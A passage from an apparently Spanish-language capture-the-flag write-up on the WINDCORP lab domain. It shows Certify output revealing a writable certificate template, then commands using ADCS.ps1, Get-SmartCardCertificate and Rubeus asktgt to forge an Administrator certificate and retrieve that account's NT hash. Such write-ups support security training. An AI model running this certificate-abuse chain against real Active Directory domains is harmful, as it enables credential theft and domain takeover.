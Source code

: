 ```jsx
        All Extended Rights         : WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
      Object Control Permissions
        Owner                       : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
        Full Control Principals     : WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
        WriteOwner Principals       : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
                                      WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
                                      WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
        WriteDacl Principals        : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
                                      WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
                                      WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
        WriteProperty Principals    : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
                                      WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
                                      WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290

Certify completed in 00:00:12.5182225
```

### Abuso de ENROLLEE_SUPPLIES_SUBJECT

Puedo tratar de crear un nuevo certificado a partir de un principal ya existente en el sistema y pasarselo a Rubeus para obtener un hash NT del usuario Administrador. Para poder crearlo necesito importar ADCS.ps1 a la máquina (Active Directory Cerficate Services) y PowerView.ps1

```jsx
Get-SmartCardCertificate -Identity Administrator -TemplateName web -NoSmartCard -Verbose
```

```jsx
PS C:\Users\diegocruz\Desktop> gci cert:\currentuser\my

   PSParentPath: Microsoft.PowerShell.Security\Certificate::currentuser\my

Thumbprint                                Subject                                                                      
----------                                -------                                                                      
F52A69DE4A6F654097422754629CA33AD314F1E0
```

```jsx
PS C:\Users\diegocruz\Desktop> .\Rubeus.exe asktgt /user:Administrator /certificate:F52A69DE4A6F654097422754629CA33AD314F1E0 /getcredentials
```